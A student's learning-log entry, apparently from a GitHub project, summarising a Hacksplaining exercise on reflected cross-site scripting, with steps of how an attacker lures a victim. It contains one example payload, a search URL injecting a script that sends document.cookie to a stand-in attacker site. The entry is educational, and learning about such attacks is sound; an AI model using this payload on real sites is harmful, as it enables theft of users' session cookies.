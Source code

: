 # Entry #6: Another Part of XSS and Needing To Speed Things up
Time is running out and there is still so many more topics to learn about! What should I do? Read on to find out! (O u O)/

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Reflected XSS](https://www.hacksplaining.com/exercises/xss-reflected#). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward.  

![circles](../images/reflected-xss/circles.png)  

## Connection 
**_(circles 1+2)_**

This topic is connected to cross-site scripting, which gives attackers a way to use malicious JavaScript in programmer’s database. By doing so, the code is executed when user goes to site  
Another method of attackers using XSS to use malicious JavaScript → Reflected XSS attack  

## How It Happens 
**_(circle 3)_**

If a website uses HTTP to execute user’s request and shows the results in return, then is would be opening a way for attackers to use their JavaScript on it. 

**_(circle 4-11)_**

* Mal (attacker) sees that a website uses the aspect of putting search terms into the URL. 
* Mal knows that search terms will be shown in the URL of the results page → www.welp.com?search=taco (```taco``` is the parameter value for ```search```)  
* Mal tries to infiltrate the site by making a URL with a section of JavaScript that can help him → ```www.welp.com?search=<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>``` (in parameter of search )    
* When the URL and his JavaScript runs in the user's browser, this leads to his/her browser going to Mal's malicious site.  
* Once he was able to be successful, his next step would be to fool someone else to do what he just did, but without knowing that it is not suppose to happen in his favor 

**Steps That Mal Takes:** 
1) Send email to Vic (innocent user) in attempt to have him click on the link that catches his attention 
2) When the link is clicked by Vic, the page/browser processes the HTML “without escaping it properly” and instead, have it process the script tag that Mal injected.  
    * “without escaping it properly” → Have the code language not transition into another one
        * Mr. Mueller’s example: ```<p> <%  > </p> ``` 
        * The ```>``` for the Ruby section (```<% >```)  
            * Without % → goes from HTML to Ruby and then back to HTML, but the closing tag for Ruby stays the same as the HTML one → letting Mal’s code run in browser  
3) Once page loads, Mal’s script is ran and as a result, Vic’s browser displays Mal’s malicious site instead of the one that he was expecting to see.  
    * With Vic fooled and lead to the malicious site, Mal gains the ability to see Vic’s server log 

## Takeaways
**Use the people around you as resources.** For me, when I was learning about the method Mal would use so that the program is tricked into reading his malicious code, I was confused by the phrase, “escaping properly”. While knowing that Mr. Mueller has encountered this kind of obstacle before (with a link/URL), I went ahead and asked him to see if he understood what it means. It is kind of awesome that one’s struggle and success in something can lead to another person successfully tackle their own obstacle(s). 

## Next Steps 
* There are many more topics that I can learn about in this website, but time running out. What should I do? Well, from skimming through the topic names, I have noticed that cross-site scripting (XSS) is mentioned four times: Cross-Site Scripting, Cross-Site Request Forgery, Reflected XSS, and DOM-Based XSS. With these things in mind, my plan for now would be to learn the “last part” of XSS and then see if I I can make a MVP.  
* **MAKE A MVP BY _NEXT WEEK_!!!**  
* MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP MVP   





